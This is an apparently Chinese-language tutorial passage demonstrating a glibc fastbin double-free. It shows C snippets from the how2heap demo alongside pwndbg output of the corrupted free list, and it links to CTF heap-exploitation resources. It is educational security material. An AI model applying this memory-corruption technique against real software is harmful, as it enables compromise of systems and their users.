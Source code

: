 继续执行，释放 chunk 1
```
fprintf(stderr, "If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
// free(a);
fprintf(stderr, "So, instead, we'll free %p.\n", b);
free(b);

If we free 0x405010 again, things will crash because 0x405010 is at the top of the free list.
So, instead, we'll free 0x405030.

pwndbg> fastbin
fastbins
0x20: 0x405020 —▸ 0x405000 ◂— 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
pwndbg> heap
Free chunk (fastbins) | PREV_INUSE
Addr: 0x405000
Size: 0x21
fd: 0x00

Free chunk (fastbins) | PREV_INUSE
Addr: 0x405020
Size: 0x21
fd: 0x405000

Allocated chunk | PREV_INUSE
Addr: 0x405040
Size: 0x21

Top chunk | PREV_INUSE
Addr: 0x405060
Size: 0x20fa1

pwndbg>
```

再次释放 chunk 0，double free
```
fprintf(stderr, "Now the free list has [ %p, %p, %p ]. If we malloc 3 times, we'll get %p twice!\n", a, b, a, a);
free(a);

Now, we can free 0x405010 again, since it's not the head of the free list.

pwndbg> fastbins
fastbins
0x20: 0x405000 —▸ 0x405020 ◂— 0x405000
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
pwndbg> x/20gx 0x405000
0x405000:       0x0000000000000000      0x0000000000000021    ----> chunk 0
0x405010:       0x0000000000405020      0x0000000000000000    ----> fd = 0x405020
0x405020:       0x0000000000000000      0x0000000000000021    ----> chunk 1
0x405030:       0x0000000000405000      0x0000000000000000    ----> fd = 0x405000
0x405040:       0x0000000000000000      0x0000000000000021    ----> chunk 2
```

  [1]: https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/fastbin-attack/
  [2]: https://uaf.io/exploitation/2017/03/19/0ctf-Quals-2017-BabyHeap2017.html